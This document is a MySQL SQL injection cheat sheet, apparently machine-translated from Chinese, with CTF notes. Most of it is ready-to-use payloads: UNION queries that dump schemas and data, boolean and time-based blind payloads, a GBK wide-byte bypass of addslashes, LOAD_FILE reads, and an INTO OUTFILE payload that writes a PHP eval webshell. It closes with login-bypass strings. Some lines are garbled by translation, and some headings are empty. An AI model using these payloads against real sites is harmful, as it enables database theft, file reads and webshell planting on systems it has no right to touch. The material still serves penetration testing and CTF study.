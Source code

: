 0x01 basic
Check the current database version
VERSION ()
@@ VERSION
@@ GLOBAL.VERSION
Currently logged in user
USER ()
CURRENT_USER ()
SYSTEM_USER ()
SESSION_USER ()
Currently used database
DATABASE ()
SCHEMA ()
Path related
@@ BASEDIR: mysql installation path:
@@ SLAVE_LOAD_TMPDIR: Temporary folder path:
@@ DATADIR: Data Storage Path:
@@ CHARACTER_SETS_DIR: character set file path
@@ LOG_ERROR: error log file path:
@@ PID_FILE: pid-file file path
@@ BASEDIR: mysql installation path:
@@ SLAVE_LOAD_TMPDIR: Temporary folder path:
Joint data
CONCAT ()
GROUP_CONCAT ()
CONCAT_WS ()
Alphanumeric related
ASCII (): Get the ascii code value of the letter
BIN (): The binary string representation of the return value
CONV (): hex conversion
FLOOR ()
ROUND ()
LOWER (): turn into lowercase letters
UPPER (): converted to capital letters
HEX (): hexadecimal encoding
UNHEX (): hexadecimal decoding
String interception
MID ()
LEFT ()
SUBSTR ()
SUBSTRING ()
Comments
Interline comments
- - (- there is a space behind)
DROP sampletable; -
#
DROP sampletable; #
`(Backtick)
Inline comments
/ * * / + DROP / * content * / sampletable;
/ *! Statement * /
/ *! select * from test * /
Statement will be executed
0x02 injection technology
Determine whether there is injection
Assumptions are: www.test.com/chybeta.php?id=1
Numeric injection
chybeta.php?id=1+1
chybeta.php?id=-1 or 1=1
chybeta.php?id=-1 or 10-2=8
chybeta.php?id=1 and 1=2
chybeta.php?id=1 and 1=1
Character injection
The parameters are surrounded by quotes, we need to close the quotes.
chybeta.php?id=1'
chybeta.php?id=1"
chybeta.php?id=1' and '1'='1
chybeta.php?id=1" and "1"="1
Joint inquiry
Query the number of columns
With UNION SELECT injection, if the data to be noted later out of the column with the original number of data columns, it will fail. So need to guess the number of columns.
UNION SELECT
UNION SELECT 1,2,3 #
UNION ALL SELECT 1,2,3 #
UNION ALL SELECT null,null,null #
ORDER BY
Use dichotomy
ORDER BY 10 #
ORDER BY 5  #
ORDER BY 2  #
....
Query the database
UNION SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA #
Query table name
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() #
Assuming to obtain the database name "databasename", its hexadecimal encoding 0x64617461626173656e616d65.
UNION SELECT GROUP_CONCAT(table_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x64617461626173656e616d65 #
Query column name
Obtained from the previous step to the table named tablename, its hexadecimal code obtained
UNION SELECT GROUP_CONCAT(column_name SEPARATOR+0x3c62723e) FROM+INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=0x7461626c656e616d65 #
retrieve data
UNION SELECT GROUP_CONCAT(column_1,column_2 SEPARATOR+0x3c62723e) FROM databasename.tablename #
insert / update / delete injection
Reference: SQL Injection in Insert Update and Delete Statements Assuming the background statement is:
insert into user(id,name,pass) values (1,"chybeta","123456");
order by after injection
This part finishing self- sleepy Dragon: MySql injection science popularize by the sort statement, so you can use the conditional statements to make judgments, according to the return of the different sorts of results to determine the true and false conditions.
Detection method
Generally with oder or orderby variables is likely to be such an injection, when you know a field can be injected as follows:
Original link: http://www.test.com/list.php?order=vote Sort according to the vote field.
Find the largest number of votes to vote num Then construct the following link to see whether the sort of change. :
list.php?order=abs(vote-(length(user())>0)*num)+asc
Another method does not need to know any field information, use the rand function:
list.php?order=rand(true)
list.php?order=rand(false)
The above two will return a different sort.
payload
The statement to determine whether the first character in the table name is less than 128 is as follows:
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
Error injection
Blind betting
Blind scene
In many cases, through the previous test will find the page did not echo the extracted data, but depending on whether the statement is executed successfully or not, there will be some corresponding changes.
The correct / wrong statement makes the page have a moderate change. You can try using Boolean injection
The correct statement returns the normal page, the wrong statement returns the common error page. You can try using Boolean injection.
Submit the wrong statement, does not affect the normal output of the page. Try using delayed injection.
Several simple sentences to judge, in the real need to change according to the situation:
CASE
IF ()
IFNULL ()
NULLIF ()
Boolean blinds - based on the response
Submit a logic statement to infer a bit of information. Because injection requires (general) character-by-character execution, scripts or tools (such as the burp suite) need to be used. The following is:
payload
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()

' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #

' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  

' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #

' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  

' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #

...
script
Script use, visible: ctf blind using script points:
Pay attention to the coding problem
Pay attention to the exception handling
Pay attention to the border processing
Delayed blinds - based on time
Generally use a few functions. The effect of using these is to delay the operation of mysql, and thus detect the situation with the usual difference:
SLEEP (n) to stop mysql n seconds
BENCHMARK (count, expr) Repeats the countTimes occurrence of the expression expr
Some notes:
The use of time-based blinds is not as accurate as it depends on the current network environment.
Time delay is best not to exceed 30 seconds, otherwise easily lead to mysql API connection timeout.
When the page does not see any significant change, then consider the choice of using delayed injection.
Detection method
1 OR SLEEP(25)=0 LIMIT 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #
payload

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)

UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)

...
Wide byte injection
principle
Have the following php code:
...
mysql_query("SET NAMES 'gbk'");
....
$name = isset($_GET['name']) ? addslashes($_GET['name']) : 1;
$sql = "SELECT * FROM test WHERE names='{$name}'";
addslashes () adds a single or double quotation mark \. When mysql GBK character set, it will be two characters as a Chinese character, such as% df% 5c for transport. We enter name=root%df%27,% the server will appear the following conversion: root%df%27-> root%df%5c%27-> root運'.
More can be seen: Character Encoding and SQL Injection in White Box Audit
payload
Eat\
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
...
After being addedlashes,% XX% 5c appears. If the ascii code value of the current character is greater than 128, it will be considered as a wide character, even if it is not a Chinese character. So not only% df can eat '\'.
use\
index.php?name=%**%5c%5c%27
Secondary injection
File read and write
Use sql injection can import export file, get the file content, or write to the file content. Query user read and write permissions:
SELECT file_priv FROM mysql.user WHERE user = 'username';
load_file () read
condition
Need to read the file permissions
Need to know the absolute physical path of the file.
The size of the file to read must be less than max_allowed_packet
SELECT @@max_allowed_packet;
payload
Directly use the absolute path, pay attention to the processing of the slash path.
UNION SELECT LOAD_FILE("C://TEST.txt") #

UNION SELECT LOAD_FILE("C:/TEST.txt") #

UNION SELECT LOAD_FILE("C:\\TEST.txt") #
Use encoding

UNION SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116)) #

UNION SELECT LOAD_FILE(0x433a5c5c544553542e747874) #
select Export
condition
General to specify the absolute path
The directory to be exported has write permission
The file to outfile can not already exist
payload
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';

UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';
Write webshell
condition
Need to know the site's absolute physical path, so after export webshell can be accessed
Need to export the directory can write permission.
payload
UNION SELECT  "<?php eval($_POST['chybeta'])?>" INTO OUTFILE 'C:/phpstudy/WWW/test/webshell.php';
Universal password login
admin '-
admin '#
admin '/ *
or '=' or
'or 1 = 1-
'or 1 = 1 #
'or 1 = 1 / *
') or' 1 '=' 1-
') or (' 1 '=' 1-
PDO heap query
